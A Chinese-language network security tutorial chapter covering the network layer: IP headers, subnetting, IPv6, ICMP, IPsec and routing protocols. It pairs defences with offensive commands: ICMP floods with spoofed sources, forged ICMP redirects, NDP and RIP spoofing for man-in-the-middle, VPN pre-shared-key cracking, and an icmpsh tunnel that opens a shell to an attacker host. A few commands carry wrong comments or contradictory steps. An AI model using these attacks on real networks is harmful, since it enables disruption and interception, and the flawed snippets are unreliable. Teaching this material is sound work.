


## 三、网络层核心协议

网络层（OSI第三层 / TCP/IP网际层）是互联网通信的枢纽。它负责将数据包从源主机跨越多个异构网络送达目的主机，核心任务包括**寻址**（用IP地址标识设备）、**路由**（选择转发路径）和**分片重组**（适应不同链路MTU）。从安全视角看，网络层既是攻击者进行侦察、欺骗和劫持的关键战场，也是部署防御策略（防火墙、VPN、流量过滤）的核心位置。

---

### 3.1 IPv4协议详解

#### 3.1.1 IPv4报文头部结构

IPv4报文头部长度为20-60字节（无可选项时固定20字节），每个字段都有明确的功能和安全含义：


用更直观的方式表示关键字段：

| 字段 | 位数 | 功能 | 安全意义 |
|------|------|------|----------|
| Version | 4 | IP版本号（IPv4=4） | 畸形版本号可用于模糊测试 |
| IHL（头部长度） | 4 | 头部长度，单位4字节，最小5（20字节） | 畸形IHL可触发栈溢出 |
| DSCP/ECN | 8 | 服务质量标识 | DSCP可用于流量分类与策略绕过 |
| Total Length | 16 | 整个IP包长度，最大65535字节 | 超大包可触发Ping of Death |
| Identification | 16 | 标识符，用于分片重组 | 用于IP分片重叠攻击（Teardrop） |
| Flags | 3 | DF（不分片）、MF（更多分片） | DF=0 + 小MTU可强制分片 |
| Fragment Offset | 13 | 分片偏移量，单位8字节 | 重叠偏移可绕过IDS/防火墙检测 |
| TTL | 8 | 生存时间，每经一跳减1 | 推断OS类型、检测路由环路 |
| Protocol | 8 | 上层协议号（TCP=6, UDP=17, ICMP=1） | 用于协议栈指纹识别 |
| Header Checksum | 16 | 头部校验和 | 每跳重新计算，防止头部篡改 |
| Source Address | 32 | 源IP地址 | **可被伪造**——IP欺骗攻击的基础 |
| Destination Address | 32 | 目的IP地址 | 可用于广播地址放大攻击 |
| Options | 可变 | 路由记录、时间戳、源路由等 | 源路由可绕过网络拓扑限制 |

#### 3.1.2 关键字段的深度安全分析

**TTL（生存时间）**

TTL的初始值因操作系统而异，这成为OS指纹识别的重要依据：

| 操作系统 | 默认TTL |
|----------|---------|
| Linux / Android | 64 |
| Windows | 128 |
| macOS / iOS | 64 |
| Cisco IOS | 255 |
| Solaris | 255 |

攻击者通过探测返回包的TTL值可以推断目标操作系统。例如，收到TTL=117的包，说明经过了11跳（128-117=11），原始TTL很可能是128，目标运行Windows。

**IP分片机制与攻击**

IP分片是将大数据包拆分成多个小片段以适应不同链路MTU的技术。分片攻击利用重组过程中的漏洞：

- **Teardrop攻击**：发送两个重叠的分片，第二个分片的偏移量+长度小于第一个分片的结束位置。老版本Linux内核在重组时计算错误导致内核崩溃
- **Ping of Death**：发送长度超过65535字节的ICMP包（通过分片实现），重组后溢出缓冲区
- **Rose攻击**：发送大量具有相同标识但偏移量递增的分片，消耗重组缓冲区内存
- **分片绕过IDS**：将恶意载荷分散到多个分片中，如果IDS不做重组就无法检测完整的攻击载荷

```bash
# 使用 hping3 进行分片测试
hping3 -f -f -p 80 --frag-offset 8 target_ip    # 设置DF标志位
hping3 --frag -d 200 target_ip                    # 强制分片，每个片段200字节

# 使用 scapy 构造畸形分片
from scapy.all import *
# 构造重叠分片
pkt1 = IP(dst="target", id=1, frag=0, flags="MF") / ICMP() / ("A"*100)
pkt2 = IP(dst="target", id=1, frag=1, flags=0) / ICMP() / ("B"*100)
# frag=1 表示偏移量为 8字节（单位），但实际载荷从字节0开始就有数据
```

**IP选项的安全风险**

IP头部的Options字段虽然很少使用，但安全影响深远：

| 选项 | 类型 | 安全风险 |
|------|------|----------|
| Loose Source Routing (LSRR) | 131 | 指定部分路由路径，可绕过防火墙策略 |
| Strict Source Routing (SSRR) | 137 | 指定完整路由路径，可强制数据包经过特定节点 |
| Record Route | 7 | 记录经过的每个路由器，用于网络侦察 |
| Timestamp | 68 | 记录经过的每个路由器及时间戳 |

源路由（Source Routing）是最危险的选项：攻击者可以在IP包中指定数据包的转发路径，强制数据包经过攻击者控制的节点，从而绕过基于拓扑的访问控制。现代网络设备默认丢弃带源路由选项的包，但很多遗留系统仍然接受。

```bash
# 使用 Linux 源路由选项进行测试（需要root权限）
# 记录路由
ping -R target_ip

# 严格源路由
# 需要使用 raw socket 编程实现
```

#### 3.1.3 IP欺骗攻击原理

IP欺骗（IP Spoofing）是网络层最基础也最重要的攻击技术之一。由于IPv4协议设计时没有认证机制，攻击者可以任意伪造源IP地址。

**IP欺骗的攻击场景**：

| 攻击类型 | 原理 | 依赖条件 |
|----------|------|----------|
| SYN Flood | 伪造源IP发送SYN，服务器回复到不存在的地址 | 无需响应 |
| DNS放大攻击 | 伪造源IP为受害者IP向DNS服务器发送查询 | 查询包远小于响应包 |
| BGP劫持 | 伪造路由宣告 | 需要AS级别的网络接入 |
| Smurf攻击 | 伪造源IP向广播地址发送ICMP请求 | 目标网络允许广播 |
| TCP盲劫持 | 猜测序列号发送伪造的ACK | 需要序列号预测 |
| 反射放大攻击 | 伪造源IP向各类服务器发送请求 | 利用协议放大效应 |

**防御IP欺骗的措施**：

```bash
# 入口过滤（BCP38）——阻止伪造源IP的包离开网络
# iptables 示例：丢弃源IP不属于本网段的出站包
iptables -A OUTPUT -s ! 192.168.1.0/24 -j DROP

# uRPF（单播反向路径转发）——在路由器上启用
# Cisco 配置
interface GigabitEthernet0/0
  ip verify unicast source reachable-via rx

# 出口过滤：阻止不属于本网络的源IP离开
iptables -A FORWARD -s ! 192.168.1.0/24 -j DROP
```

---

### 3.2 IP地址与子网划分

#### 3.2.1 IPv4地址体系

IPv4地址是32位二进制数，通常用点分十进制表示（如192.168.1.1）。地址空间约43亿个，但可用地址远少于此。

**传统分类编址**：

| 类别 | 首位模式 | 范围 | 默认掩码 | 网络/主机位 | 网络数 | 每网主机数 |
|------|----------|------|----------|-------------|--------|------------|
| A类 | 0xxxxxxx | 1.0.0.0 - 126.255.255.255 | /8 (255.0.0.0) | 8/24 | 126 | 16,777,214 |
| B类 | 10xxxxxx | 128.0.0.0 - 191.255.255.255 | /16 (255.255.0.0) | 16/16 | 16,384 | 65,534 |
| C类 | 110xxxxx | 192.0.0.0 - 223.255.255.255 | /24 (255.255.255.0) | 24/8 | 2,097,152 | 254 |
| D类 | 1110xxxx | 224.0.0.0 - 239.255.255.255 | - | 组播地址 | - | - |
| E类 | 1111xxxx | 240.0.0.0 - 255.255.255.255 | - | 保留 | - | - |

注意127.0.0.0/8是环回地址（loopback），不属于任何类别。

**私有地址与特殊地址**：

| 地址段 | RFC | 用途 |
|--------|-----|------|
| 10.0.0.0/8 | RFC 1918 | A类私有地址，最大地址池 |
| 172.16.0.0/12 | RFC 1918 | B类私有地址，172.16.0.0 - 172.31.255.255 |
| 192.168.0.0/16 | RFC 1918 | C类私有地址，常用于家庭/小型网络 |
| 169.254.0.0/16 | RFC 3927 | 链路本地地址（APIPA），DHCP失败时自动分配 |
| 127.0.0.0/8 | RFC 1122 | 环回地址，用于本机通信 |
| 0.0.0.0/8 | RFC 1122 | 表示"本网络"，绑定监听时表示所有接口 |
| 255.255.255.255 | - | 受限广播地址 |
| 224.0.0.0/4 | RFC 5771 | 组播地址范围 |

#### 3.2.2 CIDR与子网划分

CIDR（Classless Inter-Domain Routing，无类别域间路由）打破了传统分类编址的限制，使用可变长子网掩码（VLSM）实现更灵活的地址分配。

**子网掩码与网络计算**：

```text
IP地址：   192.168.1.130   = 11000000.10101000.00000001.10000010
子网掩码： 255.255.255.192 = 11111111.11111111.11111111.11000000 (/26)
网络地址：                   11000000.10101000.00000001.10000000 = 192.168.1.128
广播地址：                   11000000.10101000.00000001.10111111 = 192.168.1.191
主机范围：                   192.168.1.129 - 192.168.1.190（共62台主机）
```

**常用CIDR速查表**：

| CIDR | 子网掩码 | 地址数 | 可用主机数 | 常见用途 |
|------|----------|--------|------------|----------|
| /30 | 255.255.255.252 | 4 | 2 | 点对点链路 |
| /28 | 255.255.255.240 | 16 | 14 | 小型子网 |
| /24 | 255.255.255.0 | 256 | 254 | 传统C类网络 |
| /22 | 255.255.252.0 | 1024 | 1022 | 中型局域网 |
| /16 | 255.255.0.0 | 65,536 | 65,534 | 传统B类网络 |
| /8 | 255.0.0.0 | 16,777,216 | 16,777,214 | 传统A类网络 |

**子网划分实战计算**：

假设公司有一个192.168.10.0/24的网络，需要划分为6个子网，每个子网至少20台主机：

```text
需要至少6个子网 → 借3位（2³=8个子网）→ /27
每个子网可容纳 2⁵-2=30台主机（满足20台的需求）

子网1: 192.168.10.0/27   (主机范围: .1 - .30,   广播: .31)
子网2: 192.168.10.32/27  (主机范围: .33 - .62,  广播: .63)
子网3: 192.168.10.64/27  (主机范围: .65 - .94,  广播: .95)
子网4: 192.168.10.96/27  (主机范围: .97 - .126, 广播: .127)
子网5: 192.168.10.128/27 (主机范围: .129 - .158, 广播: .159)
子网6: 192.168.10.160/27 (主机范围: .161 - .190, 广播: .191)
```

```bash
# Linux 下使用 ipcalc 计算子网
ipcalc 192.168.10.0/27
# 输出：
# Network:   192.168.10.0/27
# Netmask:   255.255.255.224
# Broadcast: 192.168.10.31
# HostMin:   192.168.10.1
# HostMax:   192.168.10.30
# Hosts/Net: 30

# 使用 nmap 扫描整个子网
nmap -sn 192.168.10.0/27
```

#### 3.2.3 保留地址与安全相关场景

在渗透测试和红队行动中，理解特殊地址的含义至关重要：

| 场景 | 地址 | 安全含义 |
|------|------|----------|
| 绑定所有接口监听 | 0.0.0.0 | 服务监听所有网卡，暴露面更广 |
| 本地回环测试 | 127.0.0.1 | 绕过网络层直接访问本机服务 |
| DHCP客户端未获取地址 | 169.254.x.x | 网络配置失败，可能存在DHCP攻击 |
| 组播地址 | 224.0.0.x | mDNS、SSDP等服务发现协议 |
| 组播路由协议 | 224.0.0.5/224.0.0.6 | OSPF Hello报文，可嗅探拓扑信息 |

```bash
# 安全检查：查看本机监听地址
ss -tlnp | grep "0.0.0.0"    # 监听所有接口的服务（高风险）
ss -tlnp | grep "127.0.0.1"  # 仅本地监听的服务（较安全）

# 检测是否有服务意外暴露在所有接口
netstat -tlnp | awk '$4 ~ /0.0.0.0/' | column -t
```

---

### 3.3 IPv6协议

IPv6不仅是IPv4的替代品，在安全领域同样重要。许多组织已经部署了IPv6但安全管理滞后，导致IPv6成为被忽视的攻击面。

#### 3.3.1 IPv6报文头部

IPv6头部固定40字节，比IPv4更简洁：

```text
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|Version| Traffic Class |           Flow Label                  |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|         Payload Length        |  Next Header  |   Hop Limit   |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
+                                                               +
|                                                               |
+                         Source Address (128b)                 +
|                                                               |
+                                                               +
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
+                                                               +
|                                                               |
+                      Destination Address (128b)              +
|                                                               |
+                                                               +
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

与IPv4头部的关键差异：

| 特性 | IPv4 | IPv6 | 安全影响 |
|------|------|------|----------|
| 头部长度 | 20-60字节（可变） | 40字节（固定） | 无IHL字段，无法利用畸形头部长度 |
| 分片 | 路由器和发送端均可分片 | 仅发送端分片 | 路由器不处理分片，减少攻击面 |
| 校验和 | 有（每跳重新计算） | 无（依赖链路层和传输层校验） | 头部不再每跳校验，效率更高但无法检测头部损坏 |
| TTL | 有 | 改名为Hop Limit | 功能相同 |
| 广播 | 支持 | 不支持（用组播替代） | 减少广播风暴和放大攻击 |
| IPSec | 可选 | 原生设计支持（但非强制） | 理论上更好的端到端安全 |
| 扩展头 | 通过Options字段 | 通过Next Header链 | 扩展头链可被滥用于绕过防火墙 |

#### 3.3.2 IPv6地址表示与类型

IPv6地址长度128位，用冒号分隔的十六进制表示：

```text
完整形式：2001:0db8:0000:0000:0000:0000:0000:0001
缩写规则：省略前导零 → 2001:db8:0:0:0:0:0:1
进一步缩写：连续全零段用::替代 → 2001:db8::1
注意：:: 只能出现一次
```

**IPv6地址类型**：

| 类型 | 前缀 | 说明 | 安全意义 |
|------|------|------|----------|
| 全局单播 | 2000::/3 | 全球可路由 | 互联网通信目标 |
| 链路本地 | fe80::/10 | 仅在本地链路有效 | 自动配置，无需DHCP |
| 唯一本地 | fc00::/7 | 类似IPv4私有地址 | 内网通信 |
| 组播 | ff00::/8 | 一对多通信 | 邻居发现、路由协议 |
| 未指定 | :: | 全零地址 | 类似IPv4的0.0.0.0 |
| 环回 | ::1 | 本机环回 | 类似127.0.0.1 |

#### 3.3.3 IPv6安全风险

IPv6引入了许多IPv4不具备的安全挑战：

**1. IPv6隧道攻击**

许多系统默认启用IPv6，但防火墙规则只配置了IPv4。攻击者可以通过IPv6隧道（6to4、Teredo、ISATAP）绕过IPv4防火墙：

```bash
# 检查系统是否启用了IPv6（Windows）
ipconfig /all | findstr IPv6

# Linux 检查IPv6状态
ip -6 addr show
cat /proc/sys/net/ipv6/conf/all/disable_ipv6

# 如果不需要IPv6，建议禁用
echo 1 > /proc/sys/net/ipv6/conf/all/disable_ipv6

# 或者在 /etc/sysctl.conf 中永久禁用
# net.ipv6.conf.all.disable_ipv6 = 1
# net.ipv6.conf.default.disable_ipv6 = 1
```

**2. 邻居发现协议（NDP）攻击**

IPv6用NDP替代了ARP，但同样缺乏认证机制：

- **邻居欺骗（Neighbor Spoofing）**：类似ARP欺骗，伪造邻居通告
- **路由器通告攻击（RA Spoofing）**：发送伪造的路由器通告，将自己设为默认网关
- **重复地址检测攻击（DAD DoS）**：持续发送DAD应答，阻止新节点获取IPv6地址
- **SEND（安全邻居发现）**：RFC 3971定义了基于CGA的认证机制，但实际部署极少

```bash
# 使用 fake_advertise6 进行NDP欺骗测试（THC-IPv6工具包）
# 伪造路由器通告
fake_advertise6 eth0 fe80::1

# 使用 scapy 进行NDP欺骗
from scapy.all import *
# 伪造NA（邻居通告）
na = IPv6(dst="fe80::target") / ICMPv6ND_NA(tgt="fe80::gateway", R=0, S=1, O=1) / \
     ICMPv6NDOptDstLLAddr(lladdr="attacker_mac")
send(na)
```

**3. IPv6扩展头滥用**

IPv6的扩展头链可以被滥用于规避安全设备：

```bash
# 使用分片扩展头绕过IDS
# scapy构造带扩展头的IPv6包
pkt = IPv6(dst="target") / \
      IPv6ExtHdrFragment(offset=0, m=1, id=12345) / \
      TCP(dport=80, flags="S")
```

许多安全设备在解析IPv6扩展头链时存在缺陷，攻击者可以通过插入大量Hop-by-Hop选项头或目的选项头来消耗设备的处理资源，甚至绕过检测规则。

---

### 3.4 ICMP协议深度解析

ICMP（Internet Control Message Protocol，RFC 792/4443）是网络层的核心辅助协议，用于传递控制消息、错误报告和诊断信息。虽然设计初衷是网络管理工具，但它在安全领域既是侦察利器，也是攻击载体。

#### 3.4.1 ICMP报文结构与类型

ICMP报文封装在IP数据包内部（Protocol=1），结构如下：

```text
| 类型(8b) | 代码(8b) | 校验和(16b) |
|          可变部分（取决于类型）          |
|              数据                      |
```

**常用ICMP类型详表**：

| 类型 | 代码 | 名称 | 功能 | 安全应用 |
|------|------|------|------|----------|
| 0 | 0 | Echo Reply | 回显应答 | ping响应，确认主机存活 |
| 3 | 0 | Network Unreachable | 网络不可达 | 探测网络拓扑 |
| 3 | 1 | Host Unreachable | 主机不可达 | 探测主机存在性 |
| 3 | 3 | Port Unreachable | 端口不可达 | UDP端口扫描的判断依据 |
| 3 | 13 | Administratively Prohibited | 管理禁止 | 探测防火墙规则 |
| 5 | 0/1 | Redirect | 重定向路由 | 中间人攻击，劫持流量 |
| 8 | 0 | Echo Request | 回显请求 | ping扫描、网络侦察 |
| 9 | 0 | Router Advertisement | 路由器通告 | IPv4路由发现 |
| 11 | 0 | TTL Expired | TTL超时 | traceroute路径发现 |
| 11 | 1 | Fragment Reassembly Timeout | 分片重组超时 | 检测分片重组行为 |
| 12 | 0/1/2 | Parameter Problem | 参数问题 | 探测主机协议栈实现 |

#### 3.4.2 ICMP在侦察中的应用

**Ping扫描——主机发现**

```bash
# 基本 ping
ping -c 4 target_ip

# 使用不同类型的ICMP包
ping -c 1 -t 1 target_ip           # 限制TTL，探测距离
ping -c 1 -s 1400 target_ip        # 大包探测MTU
ping -c 1 -i 0.1 target_ip         # 快速ping（100ms间隔）

# 扫描整个子网（快速判断活跃主机）
nmap -sn -PE 192.168.1.0/24        # ICMP Echo扫描
nmap -sn -PP 192.168.1.0/24        # ICMP Timestamp扫描
nmap -sn -PM 192.168.1.0/24        # ICMP Netmask扫描

# 使用 fping 进行批量ping
fping -a -g 192.168.1.0/24 2>/dev/null

# 使用 hping3 发送特定类型ICMP
hping3 -1 -C 8 -K 0 target_ip     # ICMP Echo Request
hping3 -1 -C 13 -K 0 target_ip    # ICMP Timestamp Request
```

**Traceroute——路径探测**

```bash
# 标准 traceroute（默认使用UDP或ICMP）
traceroute target_ip

# 使用ICMP模式（更可靠）
traceroute -I target_ip

# TCP模式（可穿越防火墙）
traceroute -T -p 443 target_ip

# 使用 mtr 结合 ping 和 traceroute
mtr --report target_ip

# 使用 nmap 路由追踪
nmap -sn --traceroute target_ip

# 使用 scapy 自定义traceroute
from scapy.all import *
ans, unans = sr(IP(dst="target", ttl=(1,30)) / ICMP())
for snd, rcv in ans:
    print(f"TTL={snd.ttl}: {rcv.src}")
```

#### 3.4.3 ICMP攻击技术

**ICMP Redirect攻击**

ICMP Redirect（类型5）用于路由器通知主机更优的路由路径。攻击者可以发送伪造的Redirect消息，将受害者流量引导到攻击者控制的节点：

```bash
# 使用 scapy 发送ICMP Redirect
from scapy.all import *
# 告诉目标主机，到特定目的地的流量应该通过攻击者的MAC地址
redirect = IP(src="192.168.1.1", dst="192.168.1.100") / \
           ICMP(type=5, code=1, gw="192.168.1.200") / \
           IP(src="192.168.1.100", dst="8.8.8.8") / \
           ICMP()
send(redirect)
```

防御：在主机上禁用ICMP重定向接受
```bash
# Linux 禁用ICMP重定向
echo 1 > /proc/sys/net/ipv4/conf/all/accept_redirects
echo 0 > /proc/sys/net/ipv4/conf/all/accept_redirects
# 或在 sysctl.conf 中设置
# net.ipv4.conf.all.accept_redirects = 0
```

**ICMP隧道——隐蔽通信**

ICMP隧道利用ICMP Echo/Reply报文封装其他协议的数据，绕过防火墙限制。由于许多防火墙允许ICMP通过（为了支持ping），攻击者可以将TCP流量封装在ICMP数据包的payload中：

```bash
# 使用 icmpsh 工具（需要在攻击机上运行服务端）
# 攻击机
python icmpsh_m.py attacker_ip target_ip

# 目标机（Windows）
icmpsh.exe -t attacker_ip

# 使用 ptunnel（Ping Tunnel）
# 代理端（能与目标通信的主机）
ptunnel -p proxy_ip -lp 8080 -da target_ip -dp 22

# 客户端
ssh -p 8080 localhost

# 使用 Hans 实现 ICMP 隧道
# 服务端
sudo hans -s 10.0.0.0/24 -f -v

# 客户端
sudo hans -c server_ip -f -v
```

**ICMP Flood攻击**

```bash
# 使用 hping3 进行ICMP Flood
hping3 -1 --flood --rand-source target_ip

# 使用 nping
nping --icmp --rate 1000 --count 0 target_ip

# 使用 scapy 进行ICMP Flood
from scapy.all import *
send(IP(dst="target")/ICMP(), loop=1, inter=0)
```

**Smurf攻击（ICMP放大攻击）**

攻击者向网络广播地址发送ICMP Echo Request，源IP伪造为受害者的IP。广播域内所有主机都会向受害者回复Echo Reply，造成放大效果。现代网络通过禁用定向广播（`no ip directed-broadcast`）来防御。

#### 3.4.4 ICMP安全检测与防御

```bash
# 检测ICMP隧道：查看ICMP包大小是否异常
# 正常ping包payload约56字节，ICMP隧道通常携带更大payload
tcpdump -i eth0 icmp and greater 100 -w icmp_tunnel.pcap

# 使用Wireshark过滤器
# icmp && data.len > 64    # 筛选大数据ICMP包

# 限制ICMP速率（Linux iptables）
iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/s --limit-burst 4 -j ACCEPT
iptables -A INPUT -p icmp --icmp-type echo-request -j DROP

# 完全禁止ICMP（不推荐，影响网络诊断）
# iptables -A INPUT -p icmp -j DROP

# 允许必要的ICMP类型，拒绝其他
iptables -A INPUT -p icmp --icmp-type echo-request -j ACCEPT
iptables -A INPUT -p icmp --icmp-type echo-reply -j ACCEPT
iptables -A INPUT -p icmp --icmp-type destination-unreachable -j ACCEPT
iptables -A INPUT -p icmp --icmp-type time-exceeded -j ACCEPT
iptables -A INPUT -p icmp -j DROP
```

---

### 3.5 IPsec——网络层安全协议

IPsec（IP Security）是IETF制定的网络层安全协议族，为IP通信提供机密性、完整性和认证。它是构建VPN的核心技术。

#### 3.5.1 IPsec协议体系

IPsec包含三个核心协议：

| 协议 | 功能 | IP协议号 | 提供 |
|------|------|----------|------|
| AH（认证头） | 数据完整性 + 认证 + 防重放 | 51 | 完整性、认证、防重放（无加密） |
| ESP（封装安全载荷） | 数据加密 + 完整性 + 认证 | 50 | 加密、完整性、认证、防重放 |
| IKE（Internet密钥交换） | 安全协商密钥管理 | UDP 500/4500 | 协商SA、密钥交换 |

**两种工作模式**：



- **传输模式**：保护上层数据，不修改IP头。适用于主机到主机的通信
- **隧道模式**：封装整个原始IP包，添加新IP头。适用于VPN网关之间的通信

#### 3.5.2 IPsec安全关联（SA）

每次IPsec通信都需要建立安全关联（SA），SA由三个参数唯一标识：

- **SPI（安全参数索引）**：32位标识符，放在AH/ESP头部
- **目的IP地址**：SA对应的目的端
- **安全协议标识**：AH或ESP

SA定义了以下安全参数：加密算法（AES、3DES）、认证算法（SHA-256、MD5）、密钥材料、SA生存时间等。

#### 3.5.3 IKE协商过程

IKEv2（RFC 7296）的协商过程分为两个阶段：

```text
第一阶段（IKE_SA_INIT）：
  发起方 → 响应方: DH公共值、随机数、加密/认证算法提议
  响应方 → 发起方: DH公共值、随机数、选定的算法
  [双方计算共享密钥，建立IKE SA]

第二阶段（IKE_AUTH）：
  发起方 → 响应方: 身份认证、加密的隧道配置提议
  响应方 → 发起方: 身份认证、选定的IPsec参数
  [建立IPsec SA，隧道就绪]
```

#### 3.5.4 IPsec安全风险与攻击

| 攻击类型 | 方法 | 影响 |
|----------|------|------|
| IKE Aggressive Mode破解 | 暴力破解预共享密钥（PSK） | 获取VPN凭证 |
| 降级攻击 | 强制协商使用弱加密算法 | 降低安全性 |
| 重放攻击 | 重放捕获的ESP包 | 绕过认证（防重放窗口内） |
| 中间人攻击 | 在IKE协商时插入 | 截获VPN流量 |
| SA溢出攻击 | 大量建立半连接SA | 消耗VPN设备资源 |

```bash
# 使用 ike-scan 发现IPsec VPN并提取信息
# 发现阶段一的VPN网关
ike-scan -M target_ip

# Aggressive模式破解（提取PSK hash）
ike-scan -M -A target_ip -Paggressive_hash.txt

# 使用 psk-crack 破解预共享密钥
psk-crack -d dictionary.txt aggressive_hash.txt

# 使用 nmap 检测IPsec服务
nmap -sU -p 500 target_ip
nmap -sU -p 4500 target_ip    # NAT-T端口
```

---

### 3.6 路由协议与安全

#### 3.6.1 路由基础

路由器根据路由表决定数据包的转发路径。路由表条目包含：目的网络、子网掩码、下一跳地址、出接口、度量值（metric）、管理距离等。

```bash
# 查看 Linux 路由表
ip route show
route -n
netstat -rn

# 查看特定路由
ip route get 8.8.8.8

# Windows 查看路由表
route print
tracert target_ip
```

**路由决策过程**：

1. 收到数据包，提取目的IP
2. 在路由表中查找匹配条目（最长前缀匹配）
3. 如果找到匹配，将数据包转发到下一跳
4. 如果没有匹配，检查是否有默认路由（0.0.0.0/0）
5. 如果没有默认路由，丢弃数据包并发送ICMP Destination Unreachable

#### 3.6.2 路由协议分类

| 分类 | 协议 | 类型 | 算法 | 适用场景 |
|------|------|------|------|----------|
| 内部网关协议（IGP） | RIP | 距离矢量 | Bellman-Ford | 小型网络 |
| IGP | OSPF | 链路状态 | Dijkstra | 企业网络 |
| IGP | EIGRP | 混合 | DUAL | Cisco专有网络 |
| IGP | IS-IS | 链路状态 | Dijkstra | ISP骨干网 |
| 外部网关协议（EGP） | BGP | 路径矢量 | 最佳路径选择 | 互联网骨干（AS间） |

**管理距离（AD）**——当多个路由协议提供相同目的地的路由时，路由器根据AD值选择信任哪个协议：

| 路由来源 | AD值 | 含义 |
|----------|------|------|
| 直连路由 | 0 | 最可信 |
| 静态路由 | 1 | 手动配置 |
| EIGRP汇总 | 5 | |
| eBGP | 20 | |
| EIGRP | 90 | |
| OSPF | 110 | |
| RIP | 120 | |
| 未知 | 255 | 不可信 |

#### 3.6.3 路由协议攻击

**1. BGP劫持（BGP Hijacking）**

BGP是互联网的核心路由协议，管理着全球10万+自治系统（AS）之间的路由。BGP的安全性高度依赖AS之间的信任关系，缺乏内置认证机制。

BGP劫持类型：

| 类型 | 方法 | 影响 | 真实案例 |
|------|------|------|----------|
| 前缀劫持 | 宣告不属于自己的IP前缀 | 吸引目标流量 | 2008年巴基斯坦电信劫持YouTube |
| 路径劫持 | 篡改AS_PATH属性 | 操纵路由选择 | 2010年中国电信劫持全球前缀 |
| 路由泄露 | 将应保留的路由通告给外部 | 流量绕行 | 2017年Rostelecom泄露多家大厂路由 |
| 子前缀劫持 | 宣告更具体的前缀（更长匹配） | 劫持部分流量 | 2018年亚马逊DNS劫持事件 |

```bash
# 查看BGP路由信息
# 使用 bgp.tools 查询前缀和AS信息
curl https://bgp.tools/prefix/8.8.8.0/24

# 使用 RIPE Stat API
curl https://stat.ripe.net/data/ris-prefixes/data.json?resource=AS15169

# 使用 nmap 检测BGP服务
nmap -p 179 target_ip

# 使用 scapy 检测BGP OPEN消息
tcpdump -i eth0 port 179 -w bgp.pcap
```

**2. OSPF攻击**

OSPF使用链路状态通告（LSA）来构建网络拓扑。OSPF支持认证，但许多网络未启用或使用明文认证：

```bash
# OSPF认证类型
# Type 0: 无认证
# Type 1: 明文密码认证（极不安全）
# Type 2: MD5认证（较安全）

# 使用 scapy 发送伪造的OSPF LSA
from scapy.all import *
# 需要构造OSPF Hello包或LSA Update
# 这需要对OSPF协议有深入理解
```

**3. RIP攻击**

RIP是最简单的动态路由协议，使用跳数作为度量值（最大15跳）。RIPv1无认证，RIPv2支持明文和MD5认证：

```bash
# 使用 scapy 发送伪造的RIP响应
from scapy.all import *
rip = IP(dst="224.0.0.9") / UDP(sport=520, dport=520) / \
      RIP(cmd=2, version=2) / \
      RIPEntry(addr="0.0.0.0", mask="0.0.0.0", nextHop="attacker_ip", metric=1)
send(rip)
# 这将宣告默认路由指向攻击者，实现中间人攻击
```

#### 3.6.4 路由安全防护

```bash
# BGP安全措施
# 1. RPKI（资源公钥基础设施）——验证路由来源
# 2. BGP TTL Security Hop（GTSH）——限制BGP邻居的最大跳数
# 3. 前缀过滤——只接受合法的前缀

# Cisco BGP安全配置示例
router bgp 65001
  neighbor 10.0.0.2 ttl-security hops 1    # TTL安全
  neighbor 10.0.0.2 prefix-list ALLOWED in  # 前缀过滤
  neighbor 10.0.0.2 password StrongPassword # MD5认证

# OSPF安全配置
interface GigabitEthernet0/0
  ip ospf authentication message-digest
  ip ospf message-digest-key 1 md5 StrongPassword

# RIP安全配置（使用路由映射限制接受的路由）
router rip
  version 2
  passive-interface default
  neighbor 10.0.0.2
```

---

### 3.7 ARP与网络层的关系

ARP协议工作在数据链路层与网络层之间，负责将网络层的IP地址解析为数据链路层的MAC地址。虽然OSI模型将ARP归为第二层，但它与第三层密不可分。

ARP欺骗是网络层攻击的前置步骤——攻击者通过ARP欺骗建立中间人位置后，可以对网络层的IP通信进行嗅探、篡改和重定向。详细的ARP协议分析和攻击技术请参阅[第二章·ARP协议](02-二数据链路层核心协议.md)。

---

### 3.8 网络层安全防御体系

#### 3.8.1 防火墙与包过滤

网络层防火墙根据IP头信息进行流量过滤，是最基本的网络边界防御手段：

```bash
# iptables 网络层过滤示例
# 允许已建立的连接
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

# 允许特定网段访问
iptables -A INPUT -s 192.168.1.0/24 -j ACCEPT

# 阻止特定IP段
iptables -A INPUT -s 10.0.0.0/8 -j DROP

# 阻止伪造源IP（入口过滤）
iptables -A INPUT -s 127.0.0.0/8 ! -i lo -j DROP
iptables -A INPUT -s 0.0.0.0/8 -j DROP
iptables -A INPUT -s 224.0.0.0/4 -j DROP
iptables -A INPUT -s 169.254.0.0/16 -j DROP

# 记录并丢弃异常TTL的包（可能的OS指纹探测）
